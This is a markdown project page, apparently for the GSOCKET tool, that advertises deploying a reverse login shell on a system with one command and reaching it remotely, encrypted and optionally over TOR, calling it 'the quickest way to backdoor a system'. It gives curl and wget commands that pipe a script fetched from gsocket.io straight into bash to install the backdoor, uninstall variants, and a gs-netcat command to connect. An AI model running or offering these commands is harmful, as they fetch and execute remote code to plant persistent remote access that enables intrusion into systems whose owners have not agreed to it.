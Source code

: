 ```yaml
---
layout: default
---
```


Deploy a reverse login shell with a *single command* (fully automated) - and access the shell remotely - encrypted - and via TOR if you like. 

> _This must be the quickest way to backdoor a system_
>                                                 -- anonymous

Use either one of these two commands to _deploy_:
```shell
bash -c "$(curl -fsSL gsocket.io/x)"
```

```shell
bash -c "$(wget -qO- gsocket.io/x)"
```

Use either one of these two commands to _uninstall_:
```shell
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
```
```shell
GS_UNDO=1 bash -c "$(wget -qO- gsocket.io/x)"
```

Access the remote host from anywhere in the world:
```shell
$ gs-netcat -s ExampleSecretChagneMe -i
```
(To use gs-netcat you need to [install gsocket]({{site.github.repository_url}}\#installation-anchor))

---

This is just one example of GSOCKET. Visit the [GitHub Page]({{site.github.repository_url}}) for more.  

---
{:refdef: style="text-align: center;"}
Screenshots
{: refdef}
Install
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Login
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}
---
Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).

